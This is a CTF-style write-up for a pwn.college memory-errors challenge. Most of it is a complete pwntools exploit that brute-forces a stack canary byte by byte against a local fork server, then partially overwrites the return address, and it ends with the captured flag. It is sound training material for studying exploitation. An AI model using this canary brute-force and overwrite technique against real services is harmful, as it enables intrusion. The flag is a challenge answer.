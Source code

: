 ```yaml
---
layout: post
title: (Memory Errors) level 15.1
date: 2025-07-09 15:09:01 +0300
categories: pwn.college Memory-Errors
tags: pwn.college memory-errors partial-overwrite brute-force stack-canary buffer-overflow
---
```


## Information 
- category: pwn

## Description 
> Defeat a stack canary in a PIE binary by utilizing a network-style fork server in the target binary.

## Write-up
> Like `level15.0`, this challenge follows a similar pattern — refer back to it if needed.
{: .prompt-tip}

## Exploit 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./babymem-level-15-0_patched")

context.binary = exe


def conn():
    r = remote("127.0.0.1", 1337)

    return r

def send_payload(p, payload):

    p.sendline(f"{len(payload)}".encode())
    p.send(payload)


def brute_force_canary():
    canary = b"\x00"
    i = 0x00
    while len(canary) < 0x8:
        for i in range(0x00,0xff):
            with remote("127.0.0.1" , 1337) as p:
                send_payload(p, b"A"*88 + canary + bytes([i]) )
                res = p.recvall(timeout=4)
                if b"*** stack smashing detected ***" not in res:
                    canary+= bytes([i])
                    break

    log.success(f"Canary: {canary}")

    return canary
def jump_to_win(canary):
    i = 0x00
    while i < 0xff:
        p = conn()
        fixed = b"\x1f"
        padding_to_canary = b"A"*88
        padding_to_ret = b"B"*8

        payload = padding_to_canary + canary + padding_to_ret + fixed + bytes([i])

        send_payload(p, payload)
        res = p.recvall()
        if b"pwn.college" in res:
            print(res.decode())
            break
        else:
            i += 0x1

def main():
    canary = brute_force_canary()

    jump_to_win(canary)


if __name__ == "__main__":
    main()
```

## Flag
> Flag: ```pwn.college{DL5cTNxgzPiU_TYZgFn1dHA8_jccjiejPdTj.01NxMDL5cTNxgzW}```